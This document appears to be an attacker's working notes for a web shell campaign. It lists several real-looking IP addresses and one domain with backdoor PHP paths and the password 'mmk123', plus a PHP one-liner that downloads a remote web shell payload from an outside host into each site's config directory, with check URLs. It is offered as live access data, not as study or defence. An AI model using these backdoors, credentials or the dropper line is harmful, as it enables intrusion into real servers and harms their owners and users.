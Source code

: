 http://47.99.75.245/template/default/bootstrap/js/js.php |mmk123 
代码更新：0608 ✅
http://47.99.75.245/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://47.99.75.245/config/httpd.php?d=up

http://39.106.48.93/template/default/bootstrap/js/js.php |mmk123
代码更新：0608 ✅
http://39.106.48.93/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://39.106.48.93/config/httpd.php?d=up

http://39.105.19.82/template/default/bootstrap/js/js.php |mmk123 
代码更新：0608 ✅
http://39.105.19.82/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://39.105.19.82/config/httpd.php?d=up

http://47.93.222.16/template/default/bootstrap/js/js.php |mmk123 
代码更新：0608 ✅
http://47.93.222.16/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://47.93.222.16/config/httpd.php?d=up

http://123.57.11.49/template/default/fileinput/.github/m1.php |mmk123 
代码更新：0608 ✅
http://123.57.11.49/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://123.57.11.49/config/httpd.php?d=up

http://123.57.11.49/index_bk.php |mmk123 

http://47.95.210.105/template/default/css/m1.php |mmk123 
http://47.95.210.105/index_bk.php |mmk123 
http://47.95.210.105/core/extend/excel/m1.php |mmk123 
http://47.95.210.105/index_bk.php |mmk123 
http://39.106.73.142/apps/api/model/wap.php |mmk123 
http://39.106.73.142/index_bk.php |mmk123 
https://121.196.161.139/index_bk.php |mmk123 

http://ke.kongquewangxiao.com/app/resource/css/boot.php |mmk123 |  121.196.161.139
代码更新：0608 ✅
http://ke.kongquewangxiao.com/addons/httpd.php
<?php file_put_contents("../data/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://ke.kongquewangxiao.com/data/httpd.php?d=up
